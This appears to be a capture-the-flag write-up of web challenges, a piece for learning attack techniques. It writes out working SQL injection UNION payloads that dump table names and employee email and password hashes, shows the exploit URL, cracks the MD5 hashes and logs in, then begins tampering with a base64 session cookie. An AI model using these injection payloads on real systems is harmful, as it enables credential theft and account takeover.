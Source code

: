 ~~~~~~
Classic Cars' union SELECT table_schema, table_name, null, null, null, null, null, null, null 
FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';%23
~~~~~~

This dumps a list of tables names, and from the look of it the table we want is probably employees. Lets make some guesses about column names.

~~~~~~
Classic Cars' union select null,email,null,null,null,password,null,null,null from employees;%23
~~~~~~

Bingo! So our full URL now looks like this:

[https://ctf-ddn.rhcloud.com/challenges/web/01/lines.php?catId=Classic%20Cars%27%20union%20select%20null,email,null,null,null,password,null,null,null%20from%20employees;%23&showquery=1](https://ctf-ddn.rhcloud.com/challenges/web/01/lines.php?catId=Classic%20Cars%27%20union%20select%20null,email,null,null,null,password,null,null,null%20from%20employees;%23&showquery=1)

This appends the username and password hashes onto the end of the table.

~~~~~~
dmurphy@classicmodelcars.com	1c4708df8cb006d2a007b3920a7b92a5
mpatterso@classicmodelcars.com	ef73781effc5774100f87fe2f437a435
jfirrelli@classicmodelcars.com	ef73781effc5774100f87fe2f437a435
wpatterson@classicmodelcars.com	ef73781effc5774100f87fe2f437a435
gbondur@classicmodelcars.com	ef73781effc5774100f87fe2f437a435
...snip...
~~~~~~

Those password hashes are the right length for MD5, so let's do an MD5 reverse lookup and see if we get anything reasonable.

~~~~~~
1c4708df8cb006d2a007b3920a7b92a5  ->  presidente
ef73781effc5774100f87fe2f437a435  ->  1234abcd
~~~~~~

Looks good. Log in as *dmurphy@classicmodelcars.com* and job done!


------
## Web Level 02

> "Attacker uses leaks or flaws in the authentication or session management functions (e.g., exposed accounts, passwords, session IDs) to impersonate users. Usually the cookies keep this information Tip: Base64 is not an encription method"

The key word here is session management. That means cookies, so let's take a look.

~~~~~~
PRIVILEGES    Y21WaFpEb3d8ZDNKcGRHVTZNQT09fFlXUnRhVzQ2TUE9PQ==
UN            084e0343a0486ff05530df6c705c8bb4
~~~~~~

PRIVILEGES looks interesting, and the two equals signs on the end scream base64, so let's decode it and see what treats live inside.
